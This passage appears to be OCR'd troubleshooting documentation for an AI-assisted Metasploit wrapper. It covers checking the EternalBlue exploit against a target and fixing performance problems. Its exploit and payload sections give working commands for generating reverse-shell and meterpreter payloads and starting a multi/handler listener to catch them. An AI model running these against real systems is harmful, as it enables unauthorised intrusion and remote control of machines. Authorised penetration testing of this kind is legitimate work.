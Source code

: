 **Solution:**
```bash
# Verify target vulnerability
msf-ai> exploits check ms17_010_eternalblue --target 192.168.1.100

# Check exploit options
msf-ai> exploits info ms17_010_eternalblue

# Use AI recommendations
msf-ai> ai recommend --target 192.168.1.100

# Check network connectivity
telnet 192.168.1.100 445

# Update exploit database
msfconsole -q -x "msfupdate"
```

### Payload Generation Issues

**Problem:** Payloads fail to generate or execute
```
Error: Payload generation failed
```

**Solution:**
```bash
# Check payload compatibility
msf-ai> payload info windows/meterpreter/reverse_tcp

# Use alternative payload
msf-ai> payload generate windows/shell/reverse_tcp

# Check firewall settings
# Ensure LPORT is not blocked

# Test payload locally
msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST 192.168.1.50; set LPORT 4444; run"
```

## Performance Issues

### High Memory Usage

**Problem:** Framework consuming excessive memory
```
Warning: Memory usage exceeding 8GB
```

**Solution:**
```bash
# Monitor memory usage
top -p $(pgrep -f "python.*app.py")
htop

# Adjust memory limits
memory:
  max_memory_usage: 4096  # 4GB limit
  cache_size: 512  # Reduce cache

# Enable garbage collection
memory:
  gc_interval: 60  # seconds

# Restart framework periodically
```